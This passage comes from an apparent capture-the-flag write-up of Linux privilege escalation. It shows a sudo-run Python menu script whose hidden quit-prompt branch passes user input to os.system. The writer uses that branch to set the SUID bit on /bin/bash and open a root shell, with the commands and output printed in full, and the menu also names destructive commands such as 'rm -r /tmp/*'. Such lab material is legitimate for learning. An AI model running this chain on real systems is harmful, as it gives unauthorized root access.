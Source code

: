 Run `ip route show` command, which shows all the routes

- Option4:

Run `cat /etc/os-release` command, which shows the kernel version

- Option5:

Run `shutdown now` command, which shutdown the machine, NOT spawning a root shell

- Option6:

Run `date` command, which shows the current date

- Option7:

Run `rm -r /tmp/*` command, which deletes everything in the machine

If you smart enough, you'll find that the **option 0 is kinda weird**...

```py
if select == 0: 
	time.sleep(1)
	ex = str(input("are you sure you want to quit ? yes : "))
	if ex == ".":
        print(os.system(input("\nRunning....")))
	if ex == "yes " or "y":
	   sys.exit()
```

If we run the **option 0**, it'll prompt me to input: "Want to quit?". If I type `yes` or `y`, It'll exit normally.

BUT, **the first nested if statement** stood out:

**If I type `.`, it'll NOT exit**, instead, I'll be prompt to **run any command** (`os.system()`).

So, what if I **run the option 0, type `.`, and add SUID sticky bit into `/bin/bash`?**

```
condor@mnemonic:~$ sudo /usr/bin/python3 /bin/examplecode.py 
[...]
Select:0
are you sure you want to quit ? yes : .

Running....chmod +s /bin/bash
0

condor@mnemonic:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

Boom!! the `/bin/bash` has SUID sticky bit!! Let's spawn a SUID privilege bash shell!

```
condor@mnemonic:~$ /bin/bash -p

bash-4.4# whoami;hostname;id;ip a
root
mnemonic
uid=1002(condor) gid=1002(condor) euid=0(root) egid=0(root) groups=0(root),1002(condor)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:dc:66:fa:04:11 brd ff:ff:ff:ff:ff:ff
    inet 10.10.173.174/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3079sec preferred_lft 3079sec
    inet6 fe80::dc:66ff:fefa:411/64 scope link 
       valid_lft forever preferred_lft forever
```
